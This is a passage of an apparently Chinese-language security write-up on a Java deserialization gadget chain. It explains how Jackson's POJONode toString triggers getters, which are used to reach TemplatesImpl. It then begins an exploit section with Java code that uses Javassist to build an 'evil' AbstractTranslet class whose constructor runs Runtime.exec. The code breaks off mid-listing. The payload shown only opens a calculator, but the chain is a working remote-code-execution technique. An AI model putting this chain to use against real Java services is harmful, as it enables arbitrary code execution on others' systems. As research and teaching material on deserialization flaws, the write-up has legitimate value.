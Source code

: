 跟进方法看下，发现依次调用了以下方法：

```java
toString -> InternalNodeMapper#nodeToString -> ObjectWriter#writeValueAsString
```

这里穿插一个Jackson的知识点：在Jackson中将对象序列化成json字符串方法为`ObjectMapper#writeValueAsString`，我们测试一下该方法，发现该方法不仅能完成对象转化还会默认调用get方法：

![image-20231109154440296](assets/1701668724-b6874f846bd69e2c367c12c2b408acd0.jpg)

所以我们就找到了getter方法的入口（用来接templateimpl的链子），这里我们还可以得出只要是继承了BaseJsonNode类，并且没有重写`toString()`方法（即需要执行父类的`toString()`方法），就能够替代POJONode这个类。

3、EXP

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class test {
    public static void main(String[] args) throws Exception {
        // 1、使用了Javassist构建templates的_bytecodes属性
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("evil");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
```